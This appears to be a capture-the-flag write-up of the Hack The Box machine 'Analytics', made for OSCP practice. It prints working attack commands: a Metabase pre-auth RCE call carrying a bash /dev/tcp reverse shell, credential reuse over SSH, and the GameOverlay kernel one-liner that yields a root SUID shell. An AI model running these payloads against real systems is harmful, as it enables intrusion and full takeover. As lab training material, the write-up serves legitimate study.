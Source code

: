 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🔍 Phase 1: Scanning & Enumeration

```bash
ping <Analytics IP Address>                              # Confirm host is live (TTL hints Linux OS)
sudo nmap -T4 -A -p- <Analytics IP Address>              # Aggressive full-port scan
nano /etc/hosts                                          # Add domain mapping to access site
# Example entry:
# <Analytics IP Address> analytical.htb data.analytical.htb
```

> Discovered Metabase login at `http://data.analytical.htb`.

---

## 🚪 Phase 2: Exploitation & User Flag

### 🔍 Recon & CVE Identification

**CVE Used:** [CVE-2023-38646 - Metabase Pre-Auth RCE](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

```bash
# Get setup-token by visiting:
http://data.analytical.htb/api/session/properties
```

### 📡 Reverse Shell Setup

```bash
sudo nc -nlvp 4444                                      # Start listener on attacker machine

# Run exploit (Python PoC):
python3 main.py -u http://data.analytical.htb -t <token> -c "bash -i >& /dev/tcp/<Your IP>/4444 0>&1"
```

> Gained reverse shell as `metabase`.

### 🔑 [Horizontal Privilege Escalation](SSH)

```bash
env                                                    # Check for credentials in environment variables
ssh metalytics@<Analytics IP Address>                  # SSH into 'metalytics' using found creds
```

### 🧾 User Flag

```bash
cat /home/metalytics/user.txt
```

> Submit the user flag!

---

## 🛠️ Phase 3: Persistence & Root Flag

### 🔍 Manual Enumeration

```bash
id                                                     # Check privileges
mkdir /opt/utkarshcodes                                # Check write access to /opt (denied)
find / -type f \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null   # SUID/GUID files
cat /proc/version                                      # Get OS version to identify kernel-level exploits
```

> Identified vulnerable kernel version: Ubuntu 22.04.2

### 💣 Exploitation

**CVE Used:**  
- [CVE-2023-2640](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)  
- [CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

```bash
# Execute GameOverlay exploit (one-liner):
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

> Root shell achieved via kernel exploit.

### 🔐 Root Flag

```bash
cat /root/root.txt
```